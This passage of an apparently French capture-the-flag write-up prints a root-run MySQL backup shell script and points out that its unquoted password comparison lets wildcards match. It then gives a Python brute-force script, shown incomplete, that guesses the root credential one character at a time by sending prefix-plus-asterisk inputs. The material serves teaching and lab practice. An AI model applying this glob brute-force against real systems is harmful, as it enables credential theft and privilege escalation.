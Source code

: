 ```bash
$ cat /opt/scripts/mysql-backup.sh 
##!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
On remarque un problème dans le **if**. Il n'y a pas de guillement sur les variables. Ca va nous permettre de bruteforce le mot de passe car les wildcard seront executé

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

```python
import subprocess

def execute_command(command, password):
    command = f'echo "{password}*" | {command}'
    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    return result.stdout.strip()

def brute_force_password():
    command = "/opt/scripts/mysql-backup.sh"
    charset = 'abcdefghijklmnopqrstuvwxyz123456789'
    password_length = 21
    password = ""

    for i in range(password_length):
        for c in charset:
            p = password + c
            output = execute_command(command, p)
```